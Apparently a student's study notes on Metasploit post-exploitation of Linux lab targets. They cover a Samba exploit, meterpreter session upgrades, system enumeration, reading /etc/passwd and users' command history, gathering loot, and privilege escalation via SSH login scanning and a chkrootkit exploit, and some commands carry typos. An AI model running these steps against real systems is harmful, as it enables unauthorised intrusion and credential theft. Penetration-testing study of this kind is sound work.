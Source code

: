 
![[Pasted image 20230830164328.png]] 

##### Upgrade shell session to meterpreter session 
1) `service postgresql start && msfconsole` 
2) create new `workspace` 
3) `setg rhost`s ip 
4) `db_nmap -sS -sV -O ip `
5) Exploit the found vulnerability: 
		 - `search samba`  -->  `use exploit/Linux/samba/is_known_pipename `
		 - `pwd` 
		 - `put session in the background` 
6) upgrade shell session to meterpreter session: `sessions -u 1` 
7) sessions 2 (this is now your meterpreter session )
 `

##### Enumerate the system: 
1)  `/bin/bash -i
2) `cat /etc/passwd`
3) `groups root ` (see members of group)
4) `cat /etc/*issue*`
5) `uname -r `
6) `uname -a`
8) `ip a s` (list interfaces on target system - get subnet for pivoting)
9) `netstat -antp`
10) `ps aux` (list processes on system)
11) `env`  

##### post exploitation modules 
- Enumerate configuration files on linux system: 
	- `search enum_configs` 
		- `use post/linux/gather/enum_configs` 
		- set session to meterpreter session on target 
		- `loot` 
		- `cat [path] ` (identify the shells that are on the system)

- gather environment settings 
	- `use post/multi/gather/env` 
	- `session` (set session to meterpreter session)
	- `run` 

- gather network information 
	- `use post/linux/gather/enum_network` 
	- `session` (set session to meterpreter session)
	- `run` 
	- `loot` (get al the information)
		- enumerate  information:  copy file path and: `cath path` `

- check protection systems on linux system (security features) 
	- `use post/linux/gather/enum_protection` 
		- set session to meterpreter session 
	- notes: here will al important notes are stored 

- system enumeration 
	- `use post/linux/gather/enum_system`
	- see installed packages: `loot` -> `cat [path]`


- check if target is a vm or container 
	- `search checkcointainer `
		- `use post/linux/gather/checkcontainer`  (if you are in a container- you need container-breakout to get access to host system that is hosting the container)
	- `search checkvm` 
		- `use post/linux/gather/checkvm` 

- enumerate users history
	- `search enum_users_history` 
		- `use post/linux/gather/enum_users_history`  (stores logs of commands)
		- `loot`  -> `cat` content file 

- post/linux/gather/enum_configs
- post/multi/gather/env
- post/linux/gather/enum_network
- post/linux/gather/enum_protections
- post/linux/gather/enum_system
- post/linux/gather/checkcontainer
- post/linux/gather/checkvm
- post/linux/gather/enum_users_history
- post/multi/manage/system_session
- post/linux/manage/download_exec
  
  
### Linux Privilege escalation - Exploiting A vulnerable program 

1) `service postgresql start && msfconsole` 
2) create new `workspace` 
3) `setg rhost`s ip 
4) `db_nmap -sS -sV -O ip `
5) Exploit the found vulnerability:  
	1) `search ssh_login`
	2) `use auxiliary/scanner/ssh/ssh_login `
	3) use ssh credentials 
	4) /bin/bash -i 
6) upgrade session 1 (shel) to meterpreter session: `sessions -u 1` 
7) open new bash session on meterpreter 
8) user enumeration: `cat /etc/passwd `
9) find a vulnerable process so we can elevate our privileges: `ps` 
10) look at the root user: to find out more about binary/script: `cat [command]`
![[Pasted image 20230830210745.png]]
11) check version of chrootkit: `chrootkit -V `
go into meterpreter and exploit chrootkit (exploit/unix/local/chrootkit) 






























### Dumping Hashes with Hashdump 





### Establishing persistence on Linux 


	

